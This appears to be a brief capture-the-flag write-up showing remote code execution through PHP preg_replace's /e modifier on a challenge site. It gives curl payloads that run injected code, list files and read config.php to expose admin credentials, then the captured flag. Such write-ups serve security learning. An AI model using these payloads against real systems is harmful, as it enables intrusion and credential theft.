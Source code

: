 This is preg_replace remote code execution in http://alienzon.com/?type=fun
Checking: `curl -X POST -d "who=//e&yourname=phpinfo();" "http://alienzon.com/?type=fun"` => Success
They filter: system(), exec(), popen().
So i try: curl -X POST -d "who=//e&yourname=\`ls\`" "http://alienzon.com/?type=fun" => `<br> config.php<br>css<br>favicon.ico<br>img<br>index.php<br>js<br>robots.txt<br>webpotato.php<br>`. Great
curl -X POST -d "who=//e&yourname=\`cat config.php\`" "http://alienzon.com/?type=fun" => `$admin_username = 'admin';$admin_password = 'deepspace';`
Login and get flag: CODE{R3gular_Expr3ssions_Now_You_Have_2_Probl3ms}


